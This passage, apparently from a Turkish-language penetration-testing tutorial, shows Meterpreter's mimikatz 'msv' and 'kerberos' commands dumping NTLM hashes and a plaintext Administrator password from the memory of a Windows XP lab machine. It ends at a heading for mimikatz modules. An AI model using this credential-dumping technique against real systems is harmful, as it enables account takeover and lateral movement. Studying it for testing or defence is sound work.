 


Gördüğünüz gibi `drivers` modülünün, `noroutemon, eventdrop, cancelator, secrets` seçenekleri bulunmaktadır.



## RAM Hafızadan Hash ve Parola Okuma



RAM hafızadan Hash değerlerini ve parolaları okumak için Metasploit Framework’ün sağladığı kendi komutlarını kullanabileceğimiz gibi `mimikaz` modüllerini de kullanabiliriz.



## Metasploit Komutları ile Bilgi Elde etme


```bash
meterpreter &gt; msv
[+] Running as SYSTEM
[*] Retrieving msv credentials
msv credentials
===============

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;78980  NTLM       WINXP-E95CE571A1  Administrator     lm{ 00000000000000000000000000000000 }, ntlm{ d6eec67681a3be111b5605849505628f }
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   lm{ aad3b435b51404eeaad3b435b51404ee }, ntlm{ 31d6cfe0d16ae931b73c59d7e0c089c0 }
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     n.s. (Credentials KO)
0;56683  NTLM                                          n.s. (Credentials KO)
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  n.s. (Credentials KO)

meterpreter &gt; kerberos
[+] Running as SYSTEM
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;999    NTLM       WORKGROUP        WINXP-E95CE571A1$  
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE     
0;56683  NTLM                                          
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE   
0;78980  NTLM       WINXP-E95CE571A1  Administrator     SuperSecretPassword
```



## Mimikatz Modülleri ile Bilgi Elde Etme
